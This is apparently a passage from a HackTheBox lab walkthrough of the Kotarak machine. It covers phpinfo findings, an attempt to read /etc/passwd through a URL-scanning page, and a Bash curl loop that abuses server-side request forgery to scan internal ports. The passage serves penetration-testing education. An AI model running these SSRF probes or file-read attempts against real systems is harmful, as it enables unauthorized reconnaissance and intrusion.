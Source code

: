 `file_uploads` is on:

![image-20210513174221955](https://0xdfimages.gitlab.io/img/image-20210513174221955.png)

This means if I can find an LFI, I can get RCE through the PHPInfo page like I showed in [Nineveh](/2020/04/22/htb-nineveh.html#shell-as-www-data-via-phpinfophp). I’ll keep an eye out for that.

`/index.php` is the main page.

#### Loading a URL

The page asks me to submit a url for it to scan. I’ll start a Python webserver on my host (`python3 -m http.server 80`) and then give it my host as a url (`http://10.10.14.15/`). It connects:

```
10.10.10.55 - - [13/May/2021 17:37:38] "GET / HTTP/1.1" 200 -

```

And then shows the empty directory:

![image-20210513174417628](https://0xdfimages.gitlab.io/img/image-20210513174417628.png)

I can try some things to read local files from Kotarak. Giving it `file:///etc/passwd` returns “try harder”

## Shell as Tomcat on dmz

### Get Tomcat Password

#### SSRF Check

I can use this to check for listening ports on Kotarak. For example, when I `curl` port 22, I get the SSH banner, and then an error:

```

oxdf@parrot$ curl http://10.10.10.55:60000/url.php?path=http%3A%2F%2F127.0.0.1%3A22
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2
Protocol mismatch.

```

Looking at port 10 (unlikely to be listening), there’s an empty response:

```

oxdf@parrot$ curl http://10.10.10.55:60000/url.php?path=http%3A%2F%2F127.0.0.1%3A10

```

#### Loop

I can create a Bash loop to check all 65535 ports for responses:

```

for i in {0..65535}; do 
  res=$(curl -s http://10.10.10.55:60000/url.php?path=http%3A%2F%2F127.0.0.1%3A${i});
  len=$(echo $res | wc -w); 
  if [ "$len" -gt "0" ]; then
    echo -n "${i}: "; 
    echo $res | tr -d "\r" | head -1 | cut -c-100; 
  fi;
done

```
